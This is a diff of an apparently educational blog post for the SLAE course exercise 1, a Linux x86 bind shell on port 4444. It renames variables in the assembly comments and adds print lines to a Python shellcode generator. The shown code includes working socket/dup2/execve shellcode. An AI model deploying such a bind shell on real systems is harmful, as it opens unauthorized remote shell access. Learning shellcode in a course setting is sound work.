

SLAE-Ex1

Changed region(s): [[0.0, 0.0, 0.999, 1.0]]

diff --git a/_posts/2019-06-09-SLAEEX1.md b/_posts/2019-06-09-SLAEEX1.md
@@ -124,7 +124,7 @@ _start:
 ;
 ;  socketcall(int call, bind(int sockfd, const struct sockaddr *addr,socklen_t addrlen))
 ;  eax:		ebx:				ecx:
-;  0x66		call = 0x2 (SYS_BIND)		*args = {sockfd = socketid = eax, sockaddr = [0x2 (AF_INET), port = 115C (4444), address = 0x0], addrlen = 0x10}
+;  0x66		call = 0x2 (SYS_BIND)		*args = {sockfd = eax, sockaddr = [0x2 (AF_INET), port = 115C (4444), address = 0x0], addrlen = 0x10}
 ;
 	pop ebx
 	pop esi
@@ -134,7 +134,7 @@ _start:
 	push word 0x02	; value for AF_INET
 	push byte +0x10
 	push ecx	; push the address that store value of sockaddr to stack
-	push eax	; eax was set to the value of socketid after the socket call 
+	push eax	; eax was set to the value of sockfd after the socket call 
 	mov ecx,esp	; ecx points to addr of current stack
 	push byte +0x66 ; 0x66 systemcall for socketcall
 	pop eax
@@ -142,9 +142,9 @@ _start:
 ;
 ;  socketcall(int call, listen(int sockfd, int backlog))
 ;  eax:		ebx:				ecx:
-;  0x66		call = 0x4 (SYS_LISTEN)		socketid = eax
+;  0x66		call = 0x4 (SYS_LISTEN)		sockfd = eax
 ;
-	mov [ecx+0x4],eax	; modify the the stack ecx is pointing to to socketid
+	mov [ecx+0x4],eax	; modify the the stack ecx is pointing to to sockfd
 	mov bl,0x4		; socket call for listen
 	mov al,0x66		; 0x66 systemcall for socketcall
 	int 0x80
@@ -159,7 +159,7 @@ _start:
 ;
 ;  dup2(int oldfd, int newfd, int flags)
 ;  eax:		ebx:			ecx:
-;  0x3f		oldfd = socketid	newfd = stdin(0), stdout(1) and stderr(2)
+;  0x3f		oldfd = sockfd		newfd = stdin(0), stdout(1) and stderr(2)
 ;
 	xchg eax,ebx
 	pop ecx
@@ -233,6 +233,9 @@ def main(argv):
 	Shellcode +="\\xb0\\x3f\\xcd\\x80\\x49\\x79\\xf9\\x68\\x2f\\x2f\\x73\\x68\\x68\\x2f\\x62\\x69\\x6e\\x89\\xe3" 
 	Shellcode +="\\x50\\x53\\x89\\xe1\\xb0\\x0b\\xcd\\x80"
 	
+	print("Shellcode:")
+	print(Shellcode)
+
 	filename="BindShell-" + str(port) + ".c"
 	print("Saving to " + filename)
  
